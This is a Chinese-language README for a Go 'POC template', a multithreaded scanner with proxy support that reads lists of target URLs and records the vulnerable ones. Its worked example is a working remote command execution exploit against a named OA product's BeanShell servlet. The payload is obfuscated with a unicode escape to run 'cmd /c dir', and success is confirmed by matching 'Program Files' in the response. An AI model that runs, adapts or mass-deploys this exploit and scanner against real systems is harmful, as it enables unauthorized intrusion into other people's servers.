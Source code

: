 # GO语言版 poc模版

# 2023.5.26更新

使用httpx库替换net/http标准库

## 使用说明

之前写过一个python的poc模版，完成了多线程扫描、单线程扫描，结果输出到文件、代理等功能，而最近在学习go，所以也重新写了一个go语言版的poc模版，同样完成了多线程扫描、单线程扫描、输出到文件、代理等功能。方便大家快速编写自己的poc。

![image-20230130202636364](GO%E8%AF%AD%E8%A8%80%E7%89%88%20poc%E6%A8%A1%E7%89%88.assets/image-20230130202636364.png)

## poc编写

在代码中，大部分功能都无需修改，仅需修改attack_from_url函数即可。

```go
func attack_from_url(target_url *string) string {
	path := "/weaver/bsh.servlet.BshServlet"
	targetUrl := *target_url + path
	body := "bsh.script=ex\\u0065c(\"cmd /c dir\");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw"
	reader := strings.NewReader(body)
	request, err := http.NewRequest("POST", targetUrl, reader)
	if err != nil {
		panic(err)
	}
	request.Header.Set("Content-Type", "application/x-www-form-urlencoded; charset=UTF-8")
	request.Header.Set("User-Agent", "Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0")
	client := set_proxy()
	resp, err := client.Do(request)
	if err != nil {
		print.red.Println("[-] " + *target_url + " 访问错误")
	} else {
		bodys, err := ioutil.ReadAll(resp.Body)
		if err != nil {
			panic(err)
		}
		body_data := string(bodys)
		if strings.Contains(body_data, "Program Files") {
			print.green.Println("[+] " + *target_url + " 存在任意命令执行漏洞")
			return *target_url
		} else {
			print.yellow.Println("[-] " + *target_url + " 不存在任意命令执行漏洞")
		}
		defer resp.Body.Close()
	}
	return ""
}
```

代码如上，以某微OA命令执行漏洞为例。首先在第二行设置了攻击的路径path，然后在第4行设置了body，如果为get请求，则删除4、5行以及第六行的reader即可。然后在10-11行设置了请求体。最后在22行对相应包的包体中的内容进行比对，来判定漏洞是否攻击成功。修改别的poc也仅需修改这些即可。

## 使用效果

![](GO%E8%AF%AD%E8%A8%80%E7%89%88%20poc%E6%A8%A1%E7%89%88.assets/image-20230130201639696.png)

## 代码说明

```go
func main() {
	var target_url string
	var target_file string

	poc_name = ""

	set_screen_color()
	print_head()

	app := cli.App{
		Name:  "go poc模版",
		Usage: "一款通用的go语言poc模版",
		Flags: []cli.Flag{
			cli.StringFlag{
				Name:        "target_url,u",
				Usage:       "读取单个目标的`url`",
				Destination: &target_url,
			},
			cli.StringFlag{
				Name:        "target_file,f",
				Usage:       "从`File`读取批量读取URL",
				Destination: &target_file,
			},
			cli.StringFlag{
				Name:        "output,o",
				Usage:       "扫描结果输出到`File`",
				Destination: &output_file,
				Value:       "success.txt",
			},
			cli.StringFlag{
				Name:        "proxy,p",
				Usage:       "代理的`url`地址",
				Destination: &proxy,
			},
			cli.IntFlag{
				Name:        "thread,t",
				Usage:       "批量扫描时的线程`数量`",
				Destination: &threads,
				Value:       20,
			},
		},
		Action: func(c *cli.Context) error {
			if target_url != "" && target_file != "" {
				print.red.Println("[-] 请选择到底是进行单个扫描还是进行批量扫描！")
				os.Exit(0)
			} else if target_url != "" {
				attack_from_url(&target_url)
			} else if target_file != "" {
				attack_from_file(&target_file)
			}
			return nil
		},
	}
	err := app.Run(os.Args)
	if err != nil {
		log.Fatal(err)
	}
}
```

首先在main函数中，定义需要的一些变量，设置命令行输出的颜色以及poc头信息，通过cli库来完成命令行操作的内容，然后在用户输入完命令后，进行判断，判断进行单线程扫描还是多线程扫描，如果进行单线程扫描，则直接进入attack_from_url函数对目标进行攻击，如果进行多线程扫描，则进入attack_from_file函数对存放攻击目标的文件进行处理。

```go
func attack_from_file(target_file *string) {
	success_url_list := list.New()
	target_url_lists := read_file(target_file)
	var data string
	string_chan := make(chan string)
	target_chan := make(chan string)
	if target_url_lists.Len() > 0 {
		print.blue.Println("[*] 成功读取目标，共计", target_url_lists.Len(), "个目标")
		for i := 0; i < threads; i++ {
			go attack_from_urls(target_chan, string_chan)
		}
		go func() {
			for i := target_url_lists.Front(); i != nil; i = i.Next() {
				target_url := fmt.Sprintf("%s", i.Value)
				target_chan <- target_url
			}
		}()
		for i := 0; i < target_url_lists.Len(); i++ {
			data = <-string_chan
			if data != "" {
				data = data + "\n"
				success_url_list.PushBack(data)
			}
		}
		close(string_chan)
		close(target_chan)
		write_file(success_url_list)
		print.blue.Println("[*] 共扫描个", target_url_lists.Len(), "目标，存在漏洞目标", success_url_list.Len(), "个。")
		print.blue.Println("[*] 扫描结果已保存到", output_file)
	} else {
		print.red.Println("[-] 未读取到目标，请检查文件中是否存在目标！")
	}
}
```

在attack_from_file文件中，首先创建两个列表，一个用来存放文件中读取出来的攻击目标，一个用来存放攻击成功的目标。然后创建两个管道，用来和子线程进行通信。如果读取到大于0个url，则打印读取的目标数，并根据用户给定的线程数量开启线程。然后另开启一个线程，循环读取列表中存放的攻击目标，并将其输入管道。而后在主线程中开启一个循环，循环利用管道接收线程的攻击结果。最后将结果写入文件。

```
func attack_from_urls(target_chan, string_chan chan string) {
	for target_url := range target_chan {
		data := attack_from_url(&target_url)
		string_chan <- data
	}
}
```

而在上述代码中，我们使用attack_from_urls作为子线程，在该函数中，我们利用for循环从管道中读取目标，并交给attack_from_url函数进行攻击，并将返回的攻击结果通过管道发送回attack_from_file函数中进行接收，并最后写入文件。

整个的代码逻辑还是十分简单，至于颜色和读取文件写入文件等函数，大家可以自行查看，希望可以帮助到大家。